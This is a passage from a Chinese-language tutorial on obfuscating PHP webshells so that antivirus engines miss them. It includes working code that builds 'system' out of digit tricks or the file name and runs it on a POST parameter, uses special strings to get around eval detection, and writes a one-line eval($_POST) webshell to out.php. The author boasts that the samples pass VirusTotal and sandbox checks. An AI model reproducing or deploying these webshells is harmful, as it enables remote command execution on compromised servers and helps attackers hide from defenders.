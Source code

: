     
    
    function confusion($a){    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];    $tmp = "";    while ($a>10) {        $tmp .= $s[$a%10];        $a = $a/10;    }    return $tmp.$s[$a];}$f = confusion(976534);         //sysTem（高危函数）$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);

### 2.2 自定义函数+文件名混淆

同样，可以配合文件名玩出一些花活，我们建一个PHP名字为 `976534.php`：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    function confusion($a){    $s = ['a','t','s', 'y', 'm', 'e', '/'];    $tmp = "";    while ($a>10) {        $tmp .= $s[$a%10];        $a = $a/10;    }    return $tmp.$s[$a];}  
    $f = confusion(intval(substr(__FILE__, -10, 6)));   //sysTem（高危函数）//__FILE__为976534.php//substr(__FILE__, -10, 6)即从文件名中提取出976534//confusion(intval(976534))即输出了sysTem（高危函数），拼接即可$f($_POST['aabyss']);        //sysTem($_POST['aabyss']);

首先先读取文件名，从 `976534.php` 文件名中提取出 `976534` ，然后带入函数中就成功返还 `sysTem`
高危函数了，可以配合其他姿势一起使用，达成免杀效果

###

### 2.3 特殊字符串

主要是通过一些特殊的字符串，来干扰到杀软的正则判断并执行恶意代码（各种回车、换行、null和空白字符等）

  *   *   * 

    
    
    $f = 'hello';$$z = $_POST['aabyss'];eval(``.$hello);

## 3# 生成新文件绕过

这是我之前写的一个免杀，其实原理也很简单，该PHP本身没法执行命令，但是运行后可以在同目录混淆写入一个WebShell，也是可以进行免杀的：

  *   *   *   *   * 

    
    
    $hahaha = strtr("abatme","me","em");      //$hahaha = abatem$wahaha = strtr($hahaha,"ab","sy");       //$wahaha = system（高危函数）$gogogo = strtr('echo "<?php evqrw$_yKST[AABYSS])?>" > ./out.php',"qrwxyK","al(_PO");//$gogogo = 'echo "<?php eval(_POST[AABYSS])?>" > ./out.php'$wahaha($gogogo);  //将一句话木马内容写入同目录下的out.php中

现在看这个是不是很简单，但是这个可是VirusTotal全绿、微步沙箱和百度沙箱都过的哦~

没想到吧~ 其实在这个简单的基础上还可以拓展出来进行高阶免杀操作

##

## 4# 回调函数绕过

通过回调函数，来执行对应的命令，这里举两个例子：

###

### 4.1 call_user_func_array()
